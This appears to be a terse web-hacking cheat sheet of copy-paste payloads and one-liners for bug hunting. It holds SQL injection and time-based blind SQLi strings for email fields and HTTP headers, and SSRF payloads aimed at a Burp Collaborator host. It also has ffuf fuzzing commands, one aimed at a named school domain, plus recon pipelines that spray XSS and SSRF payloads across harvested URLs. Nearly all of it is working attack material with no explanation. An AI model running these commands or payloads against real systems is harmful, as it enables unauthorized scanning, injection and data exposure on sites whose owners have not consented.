 ```
## **SQL Injection**
"' OR 1=1 -- '"@example.com
"mail'); SLEEP(5);--"@example.com


## **SSRF Attack**
john.doe@abc123.burpcollaborator.net
john.doe@[127.0.0.1]
```

## Time Based SQL injection Tips
```
X-Forwarded-For: 0'XOR(if(now()=sysdate(),sleep(10),0))XOR'
User-Agent: "XOR(if(now()=sysdate(),sleep(5),0))XOR"

```




```bash
ffuf -c -w ~/Desktop/WEB/wordlist/ffuf/common.txt  -u https://domain.com/FUZZ -fc 301,302,307,403,405,500 -ac

ffuf -c -w /usr/share/seclists/Discovery/Web-Content/big.txt  -u https://www.kristlik.edu.ee/FUZZ -fc 301,302,307,403,405,500 -ac

while read domain; do ffuf -u $domain/FUZZ -w  ~/Desktop/WEB/wordlist/onelistforallshort.txt; done < domains.txt
```



## XSS
```bash
echo http://target.com | subfinder -dL domains -silent | waybackurls | gf xss | sort -u | nuclei -tags xss -rl 20 -c 10

echo http://testphp.vulnweb.com | waybackurls | gf xss | uro | httpx -silent | qsreplace '"><svg onload=confirm(1)>' | airixss -payload "confirm(1)"


gospider -S domain.com-active.txt -c 10 -d 5 --blacklist ".(jpg|jpeg|gif|css|tif|tiff|png|ttf|woff|woff2|ico|pdf|svg|txt)" --other-source | grep -e "code-200" | awk '{print $5}'| grep "=" | qsreplace -a | dalfox pipe   --only-poc r --silence    --ignore-return 302,404,403 | tee domain.com-xss-report.txt
```

## SSRF
```bash
subfinder -d domain.com | httpx -silent -threads 1000 | waybackurls | grep "=" | qsreplace YOUR.burpcollaborator.net
```
